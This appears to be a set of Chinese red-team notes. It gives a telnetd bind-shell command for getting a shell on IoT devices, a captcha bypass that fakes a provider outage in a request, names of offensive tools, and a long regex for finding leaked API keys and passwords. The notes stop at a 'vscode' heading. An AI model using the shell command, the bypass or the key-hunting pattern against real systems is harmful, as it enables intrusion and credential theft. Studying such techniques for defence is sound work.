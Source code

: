 
对于 iot 设备, 常用的 nc 或 bash 回弹往往是不可以用的, 这种时候可以用监听 telnet 服务的方法，拿到 shell
```
telnetd -l /bin/sh -p 1337
```

安装 telnet 工具后连接目标 1337 口即可
```
apt install inetutils-telnet
```

---

最常见的滑块验证码是通过SaaS接入的，但为了避免第三方服务器出问题影响业务的正常运营，通常会提供一个宕机模式（即第三方服务器出问题时可不用进行滑块验证码），攻击者利用这一点就可以让滑块验证码失效。

比如在请求中添加了个"xx_server_status":0，让服务端以为第三方服务宕机了，就不用进行滑块验证了，从而绕过了滑块验证。

> 来自文章 : https://mp.weixin.qq.com/s/RzDHjRbw6DnQxig_QFxV7Q

---

对前端加密比较有帮助的2个工具
- https://github.com/jxhczhl/JsRpc
- https://github.com/whwlsfb/BurpCrypto

---

红队有自建域前置的需求可以考虑用 [RedGuard](https://github.com/wikiZ/RedGuard) 这个工具

---

搜索各种 key 的正则

- burp
    ```
    (?i)((access_key|access_token|admin_pass|admin_user|algolia_admin_key|algolia_api_key|alias_pass|alicloud_access_key|amazon_secret_access_key|amazonaws|ansible_vault_password|aos_key|api_key|api_key_secret|api_key_sid|api_secret|api.googlemaps AIza|apidocs|apikey|apiSecret|app_debug|app_id|app_key|app_log_level|app_secret|appkey|appkeysecret|application_key|appsecret|appspot|auth_token|authorizationToken|authsecret|aws_access|aws_access_key_id|aws_bucket|aws_key|aws_secret|aws_secret_key|aws_token|AWSSecretKey|b2_app_key|bashrc password|bintray_apikey|bintray_gpg_password|bintray_key|bintraykey|bluemix_api_key|bluemix_pass|browserstack_access_key|bucket_password|bucketeer_aws_access_key_id|bucketeer_aws_secret_access_key|built_branch_deploy_key|bx_password|cache_driver|cache_s3_secret_key|cattle_access_key|cattle_secret_key|certificate_password|ci_deploy_password|client_secret|client_zpk_secret_key|clojars_password|cloud_api_key|cloud_watch_aws_access_key|cloudant_password|cloudflare_api_key|cloudflare_auth_key|cloudinary_api_secret|cloudinary_name|codecov_token|config|conn.login|connectionstring|consumer_key|consumer_secret|credentials|cypress_record_key|database_password|database_schema_test|datadog_api_key|datadog_app_key|db_password|db_server|db_username|dbpasswd|dbpassword|dbuser|deploy_password|digitalocean_ssh_key_body|digitalocean_ssh_key_ids|docker_hub_password|docker_key|docker_pass|docker_passwd|docker_password|dockerhub_password|dockerhubpassword|dot-files|dotfiles|droplet_travis_password|dynamoaccesskeyid|dynamosecretaccesskey|elastica_host|elastica_port|elasticsearch_password|encryption_key|encryption_password|env.heroku_api_key|env.sonatype_password|eureka.awssecretkey)[a-z0-9_ .\-,]{0,25})(=|>|:=|\|\|:|<=|=>|:).{0,5}['\"]([0-9a-zA-Z\-_=]{8,64})['\"]
    ```
- vscode
    ```